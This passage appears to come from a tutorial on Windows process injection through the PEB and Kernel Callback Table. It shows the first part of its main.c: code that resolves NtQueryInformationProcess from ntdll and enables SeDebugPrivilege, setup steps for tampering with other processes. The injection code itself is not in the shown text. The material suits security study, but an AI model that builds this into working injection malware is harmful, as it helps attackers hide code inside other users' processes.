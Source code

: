 These assembly functions streamline the process of interacting with the PEB and Kernel Callback Table, making our C++ code cleaner and more efficient.

---

## Putting it all together!

main.c
```c
#include <stdio.h>
#include <windows.h>
#include "struct.h"
#include "helper.h"

void LoadNtQueryInformationProcess()
{
    printf( COLOR_YELLOW_BOLD "[*] Loading NtQueryInformationProcess...\n" COLOR_RESET );
    HMODULE hNtdll = GetModuleHandle( L"ntdll.dll" );
    if ( hNtdll )
    {
        NtQueryInformationProcess = ( PFN_NTQUERYINFORMATIONPROCESS ) GetProcAddress( hNtdll, "NtQueryInformationProcess" );
        if ( NtQueryInformationProcess )
        {
            printf( COLOR_GREEN_BOLD "[+] NtQueryInformationProcess loaded successfully at address: 0x%p\n" COLOR_RESET, NtQueryInformationProcess );
        }
        else
        {
            printf( COLOR_RED_BOLD "\t[-] Failed to resolve NtQueryInformationProcess address.\n" COLOR_RESET );
        }
    }
}

void EnableDebugPrivilege()
{
    printf( COLOR_YELLOW_BOLD "[*] Enabling Debug Privilege...\n" COLOR_RESET );
    HANDLE hToken;
    TOKEN_PRIVILEGES tkp;
    if ( OpenProcessToken( GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken ) )
    {
        LookupPrivilegeValue( NULL, SE_DEBUG_NAME, &tkp.Privileges[ 0 ].Luid );
        tkp.PrivilegeCount = 1;
        tkp.Privileges[ 0 ].Attributes = SE_PRIVILEGE_ENABLED;
        AdjustTokenPrivileges( hToken, FALSE, &tkp, sizeof( tkp ), NULL, NULL );
        CloseHandle( hToken );
        // printf( COLOR_GREEN_BOLD "\t[+] Debug Privilege enabled.\n" COLOR_RESET );
    }
    else
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to enable Debug Privilege.\n" COLOR_RESET );
    }
}


```
